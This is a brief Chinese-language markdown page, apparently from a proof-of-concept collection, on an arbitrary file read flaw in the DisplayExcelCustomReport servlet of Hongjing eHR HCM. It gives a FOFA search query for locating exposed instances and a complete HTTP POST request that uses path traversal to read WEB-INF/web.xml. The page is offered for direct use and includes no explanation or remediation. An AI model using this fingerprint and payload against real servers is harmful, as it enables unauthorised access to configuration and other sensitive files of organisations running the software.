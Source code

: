 ## 宏景eHR-HCM-DisplayExcelCustomReport接口存在任意文件读取漏洞

## fofa
```
app="HJSOFT-HCM"
```

## poc
```
POST /templates/attestation/../../servlet/DisplayExcelCustomReport HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

filename=../webapps/ROOT/WEB-INF/web.xml
```

